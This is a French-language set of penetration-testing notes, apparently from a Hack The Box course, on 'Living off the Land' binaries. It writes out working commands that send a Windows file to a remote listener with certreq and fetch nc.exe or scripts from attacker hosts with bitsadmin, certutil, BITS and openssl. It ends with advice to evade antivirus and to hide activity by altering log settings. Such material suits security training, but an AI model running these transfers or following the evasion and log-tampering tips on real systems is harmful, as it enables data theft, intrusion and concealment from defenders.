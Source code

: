 # Living off the Land

## <mark style="color:red;">Qu'est-ce que "Living off the Land" ?</mark>

Le terme **"Living off the Land"** (LOL) désigne l'utilisation de binaires ou de fonctions disponibles nativement sur le système d'exploitation pour exécuter des actions malveillantes. Ces outils sont appelés **LOLBins** (Living off the Land Binaries).

Ces binaires peuvent être utilisés pour :

* **Télécharger** des fichiers
* **Uploader** des fichiers
* **Exécuter des commandes**
* **Lire** et **écrire** des fichiers
* **Contourner** certaines mesures de sécurité

Les deux principaux projets qui documentent ces binaires sont :

1. **LOLBAS** (Living Off the Land Binaries and Scripts) pour Windows
2. **GTFOBins** pour Linux

***

## <mark style="color:red;">Principales Commandes et Binaries Utilisés</mark>

1.  <mark style="color:green;">**CertReq.exe (Windows)**</mark>

    Utilisation : Souvent utilisé pour soumettre des requêtes de certificats, mais peut être utilisé pour transférer des fichiers via des requêtes HTTP.

<mark style="color:orange;">**Exemple : Uploader le fichier win.ini vers un serveur distant :**</mark>

{% code fullWidth="true" %}
```powershell
certreq.exe -Post -config http://192.168.49.128:8000/ C:\windows\win.ini
```
{% endcode %}

<mark style="color:orange;">**File Received in our Netcat Session**</mark>

{% code fullWidth="true" %}
```bash
mrroboteLiot@htb[/htb]$ sudo nc -lvnp 8000
```
{% endcode %}

2.  <mark style="color:green;">**OpenSSL (Linux)**</mark>

    Utilisation : Utilisé pour la génération de certificats, peut également servir à transférer des fichiers de manière similaire à nc.

<mark style="color:orange;">**Exemple : Créer un certificat et démarrer un serveur pour transférer un fichier :**</mark>

{% code overflow="wrap" fullWidth="true" %}
```sh
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```
{% endcode %}

<mark style="color:orange;">**Télécharger le fichier depuis une machine compromise :**</mark>

{% code fullWidth="true" %}
```
openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```
{% endcode %}

3.  <mark style="color:green;">**Bitsadmin (Windows)**</mark>

    Utilisation : Permet le téléchargement de fichiers via HTTP/SMB en utilisant le service BITS. Cette méthode minimise l'impact sur les utilisateurs.

<mark style="color:orange;">**Exemple : Télécharger un fichier avec bitsadmin :**</mark>

{% code overflow="wrap" fullWidth="true" %}
```powershell
bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe
```
{% endcode %}

4.  <mark style="color:green;">**Certutil (Windows)**</mark>

    Utilisation : Outil intégré utilisé pour gérer les certificats, mais peut être détourné pour télécharger des fichiers à distance.

<mark style="color:orange;">**Exemple : Télécharger un fichier avec certutil :**</mark>

{% code fullWidth="true" %}
```powershell
certutil.exe -verifyctl -split -f http://10.10.10.32:8000/nc.exe
```
{% endcode %}

5.  <mark style="color:green;">**PowerShell et BITS (Windows)**</mark>

    Utilisation : PowerShell permet une interaction avancée avec BITS pour télécharger des fichiers.

{% code overflow="wrap" fullWidth="true" %}
```powershell
Import-Module bitstransfer Start-BitsTransfer -Source "http://10.10.10.32:8000/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```
{% endcode %}

***

## <mark style="color:red;">Autres Binaries Utilisés pour le Living off the Land</mark>

Il existe de nombreux autres binaires qui peuvent être utilisés de manière détournée. Voici quelques autres exemples :

```
Msiexec : Installation de fichiers MSI via HTTP
Regsvr32 : Chargement et exécution de DLL à distance
Rundll32 : Exécution de code à partir de DLL
Wmic : Exécution de commandes système ou téléchargement de fichiers
```

Sites Web Utiles

```
LOLBAS Project : https://lolbas-project.github.io/
GTFOBins : https://gtfobins.github.io/
```

Conseils pour l'utilisation de LOLBins

```
Testez les différentes méthodes : Plus vous connaissez de techniques, plus vous serez efficace lors d'un audit.
Évitez la détection : Certains outils comme certutil sont de plus en plus détectés par les systèmes de sécurité. Utilisez des méthodes plus obscures pour éviter d'être détecté.
```

Détection et Contournement

```
Antivirus : Certains antivirus détectent les LOLBins comme des actions malveillantes. Cherchez des alternatives moins courantes.
Journalisation : L'utilisation des LOLBins peut laisser des traces dans les logs système, pensez à masquer vos actions en modifiant les configurations log.
```
